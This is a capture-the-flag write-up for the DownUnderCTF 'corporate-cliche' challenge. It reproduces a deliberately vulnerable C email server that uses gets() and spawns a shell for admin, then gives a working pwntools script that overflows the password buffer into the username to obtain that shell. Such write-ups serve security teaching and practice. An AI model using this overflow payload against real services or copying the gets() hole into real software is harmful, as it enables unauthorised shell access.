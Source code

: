 # RE: corporate-cliche

## The Challenge

Dear Jelly,

It's time to really **push the envelope** and go **above and beyond**! We've got a new challenge for you. Can you find a way to get into our email server?

Regards,  
Blue Alder

AU: `nc chal.2025.ductf.net 30000`  
US: `nc chal.2025-us.ductf.net 30000`

---
## Code Analysis
For this challenge, we are given two files:
- `email_server`, and
- `email_server.c`

We can reason that these two files are the executable, and C language source code for said executable. We confirm this by opening `email_server` in a text editor:

![Opening the email_server executable in a text editor](./images/corporate-cliche-1.png)

As expected, we see what we expect to see when opening a binary file in a text editor.  The "ELF" at the start of the file confirms that this is a Linux executable (Executable and Linkable Format).

It's time to take a closer look at the `email_server.c` file, since looking at the code will give us clues on how to exploit the program.

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void open_admin_session() {
    printf("-> Admin login successful. Opening shell...\n");
    system("/bin/sh");
    exit(0);
}

void print_email() {
    printf(" ______________________________________________________________________\n");
    printf("| To:      all-staff@downunderctf.com                                  |\n");
    printf("| From:    synergy-master@downunderctf.com                             |\n");
    printf("| Subject: Action Item: Leveraging Synergies                           |\n");
    printf("|______________________________________________________________________|\n");
    printf("|                                                                      |\n");
    printf("| Per my last communication, I'm just circling back to action the      |\n");
    printf("| sending of this email to leverage our synergies. Let's touch base    |\n");
    printf("| offline to drill down on the key takeaways and ensure we are all     |\n");
    printf("| aligned on this new paradigm. Moving forward, we need to think       |\n");
    printf("| outside the box to optimize our workflow and get the ball rolling.   |\n");
    printf("|                                                                      |\n");
    printf("| Best,                                                                |\n");
    printf("| A. Manager                                                           |\n");
    printf("|______________________________________________________________________|\n");
    exit(0);
}

const char* logins[][2] = {
    {"admin", "🇦🇩🇲🇮🇳"},
    {"guest", "guest"},
};

int main() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    char password[32];
    char username[32];

    printf("┌──────────────────────────────────────┐\n");
    printf("│      Secure Email System v1.337      │\n");
    printf("└──────────────────────────────────────┘\n\n");

    printf("Enter your username: ");
    fgets(username, sizeof(username), stdin);
    username[strcspn(username, "\n")] = 0;

    if (strcmp(username, "admin") == 0) {
        printf("-> Admin login is disabled. Access denied.\n");
        exit(0);
    }

    printf("Enter your password: ");
    gets(password);

    for (int i = 0; i < sizeof(logins) / sizeof(logins[0]); i++) {
        if (strcmp(username, logins[i][0]) == 0) {
            if (strcmp(password, logins[i][1]) == 0) {
                printf("-> Password correct. Access granted.\n");
                if (strcmp(username, "admin") == 0) {
                    open_admin_session();
                } else {
                    print_email();
                }
            } else {
                printf("-> Incorrect password for user '%s'. Access denied.\n", username);
                exit(1);
            }
        }
    }
    printf("-> Login failed. User '%s' not recognized.\n", username);
    exit(1);
}
```

Here's a breakdown of what it does:
1. **User Input Handling**: It reads a username and password from the user.
2. **Admin Check**: If the username is "admin", it immediately rejects the login.
3. **Password Verification**: It checks if the entered credentials match any in the predefined `logins` array.
## The Exploit Plan
Straight away we can identify the weakness and avenue for exploit.

```
    char password[32];
    char username[32];

...

    printf("Enter your username: ");
    fgets(username, sizeof(username), stdin);
    username[strcspn(username, "\n")] = 0;

    if (strcmp(username, "admin") == 0) {
        printf("-> Admin login is disabled. Access denied.\n");
        exit(0);
    }

    printf("Enter your password: ");
    gets(password);
```

For those that missed it, let me break this down...

The variable `password` stores its values in a 32-character array (or, a buffer). The issue lies in the use of `gets()` for password input, which doesn't check the length of the input, allowing for buffer overflow. That is to say, if we try to cram more than 32 characters into the `password` variable, we'll overflow the allocated memory for that variable and start writing to other memory locations. Specifically, we'll overwrite the `username` variable, since that just happens to be how the program will place these variables in memory (notice how the `password` variable was declared before `username`).

Our goal is to log in as "guest" but somehow bypass the admin check. Here's how we'll do it:
1. **Login as Guest**: First, we'll log in as "guest".
2. **Buffer Overflow**: Then, we'll send a password that's longer than the buffer size, causing it to overflow into the username buffer.
3. **Overwrite Username**: By carefully crafting our payload, we'll overwrite the username buffer with "admin".
## Crafting the Payload

To make a payload that works, we need send the correct password for the 'admin' user, followed by the null terminator (`\0x00`), then some padding to fill up the remaining characters until we get to 32, and finally the admin username 'admin'. The problem is we can't type the null terminator into the command line.

We'll write a Python script to interact with the email server. The script will open the connection to the server, then send the username `guest` to login. Finally, the script will send our crafted payload to set the admin password, overflow the buffer, and set the username to `admin`.

```
from pwn import *

p = remote("chal.2025.ductf.net", 30000)

p.sendline(b"guest")

payload = (
    b"\xf0\x9f\x87\xa6" +  # 🇦
    b"\xf0\x9f\x87\xa9" +  # 🇩
    b"\xf0\x9f\x87\xb2" +  # 🇲
    b"\xf0\x9f\x87\xae" +  # 🇮
    b"\xf0\x9f\x87\xb3" +  # 🇳
    b"\x00" +              # null terminator (works here!)
    b"A" * (32 - 21) +
    b"admin"
)

p.sendline(payload)

p.interactive()
```

## The Result
When we executed the script, it successfully logs us in as "admin" and opens a shell. Inside the shell, we find a `flag.txt` file containing the flag:

![Executing the exploit](./images/corportate-cliche-2.png)
### Conclusion
This challenge demonstrates the dangers of using unsafe functions like `gets()` and the importance of validating user inputs. It also shows how buffer overflows can be used to manipulate program execution, even in seemingly secure systems.

